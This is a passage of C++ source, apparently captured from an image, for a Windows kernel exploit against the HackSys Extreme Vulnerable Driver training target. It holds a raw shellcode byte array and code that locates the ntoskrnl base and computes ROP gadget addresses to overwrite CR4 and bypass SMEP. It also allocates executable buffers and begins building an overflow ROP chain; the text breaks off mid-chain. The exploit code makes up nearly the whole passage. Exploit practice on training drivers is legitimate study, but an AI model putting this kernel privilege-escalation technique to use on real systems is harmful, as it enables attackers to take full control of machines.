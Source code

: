 ```cpp
  0x8b, 0x90, 0x90, 0x00, 0x00, 0x00, 0x48, 0x8b, 0x8a, 0x68,
  0x01, 0x00, 0x00, 0x4c, 0x8b, 0x9a, 0x78, 0x01, 0x00, 0x00,
  0x48, 0x8b, 0xa2, 0x80, 0x01, 0x00, 0x00, 0x48, 0x8b, 0xaa,
  0x58, 0x01, 0x00, 0x00, 0x31, 0xc0, 0x0f, 0x01, 0xf8, 0x48,
  0x0f, 0x07, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff
};

QWORD getBaseAddr(LPCWSTR drvName) {
	LPVOID drivers[512];
	DWORD cbNeeded;
	int nDrivers, i = 0;
	if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded < sizeof(drivers)) {
		WCHAR szDrivers[512];
		nDrivers = cbNeeded / sizeof(drivers[0]);
		for (i = 0; i < nDrivers; i++) {
			if (GetDeviceDriverBaseName(drivers[i], szDrivers, sizeof(szDrivers) / sizeof(szDrivers[0]))) {
				if (wcscmp(szDrivers, drvName) == 0) {
					return (QWORD)drivers[i];
				}
			}
		}
	}
	return 0;
}

int main()
{
	HANDLE hDriver = CreateFile(L"\\\\.\\HacksysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
	if (hDriver == INVALID_HANDLE_VALUE)
	{
		printf("[!] Error while creating a handle to the driver: %d\n", GetLastError());
		exit(1);
	}

	QWORD ntBase = getBaseAddr(L"ntoskrnl.exe");
	printf("[>] NTBase: %llx\n", ntBase);
	QWORD POP_RCX = ntBase + 0x20a386;
	QWORD MOV_CR4_RCX = ntBase + 0x3acd47; 

	int index = 0;
	int bufSize = 2072 + 4 * 8;

	LPVOID uBuffer = VirtualAlloc(NULL, bufSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	LPVOID shellcode = VirtualAlloc(NULL, 256, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	RtlFillMemory(uBuffer, bufSize, '\x41');
	RtlCopyMemory(shellcode, sc, 256);

	QWORD* rop = (QWORD*)((QWORD)uBuffer + 2072);
	
```